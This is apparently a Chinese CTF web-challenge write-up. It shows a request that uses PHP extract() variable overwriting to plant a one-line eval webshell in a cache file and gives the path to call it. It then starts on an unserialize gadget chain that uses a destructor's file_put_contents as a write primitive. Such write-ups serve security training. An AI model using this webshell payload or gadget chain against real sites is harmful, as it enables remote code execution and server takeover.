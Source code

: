 可以利用`extract($_GET);`变量覆盖控制`$user`（不要忘了$user是数组形式~）

（记得让$sql语句查询失败，不然咱们的$user会被覆盖的~）

```
/index.php?action=check&username=&user[username]=<?php eval($_POST[1]);?>&password=1
```

然后访问：`/cache/6a992d5529f459a44fee58c733255e86.php`即cache/md5(index).php



> 写马进去会发现咱们写的东西会被放在html的注释里
>
> 不过html的注释是不会影响php代码的运行的：[php注释 · php学习手册](https://www.kancloud.cn/duerhong/php/286404)
>
> ![](https://i.loli.net/2021/11/19/ZkuopaTsSHdADWv.png)
>
> 注释符是在这加上的`/index.php?action=../render/render_class`
>
> ```php
> $templateContent=str_replace('{{'.$key.'}}', '<！--'.$value.'-->', $templateContent);
> ```
>
> ![](https://i.loli.net/2021/11/19/w7DLEsiWxlX4JVo.png)



## 493-反序列化

index.php:

```php
if(!isset($action)){
	if(isset($_COOKIE['user'])){
		$c=$_COOKIE['user'];
		$user=unserialize($c);
```

看到`unserialize`，找下类:

可以看到dbLog的析构函数会执行`file_put_contents($this->log, $this->content,FILE_APPEND);`

```php
# /index.php?action=../render/db_class
# 太长了就只贴关键部分了

class db{
	
	public $log;
	public $sql;
    
	# ...
    
	public function __destruct(){
		$this->log->log($this->sql);
	}
}
class dbLog{
	public $sql;
	public $content;
	public $log;

	# ...
	public function __destruct(){
		file_put_contents($this->log, $this->content,FILE_APPEND);
	}
}

```
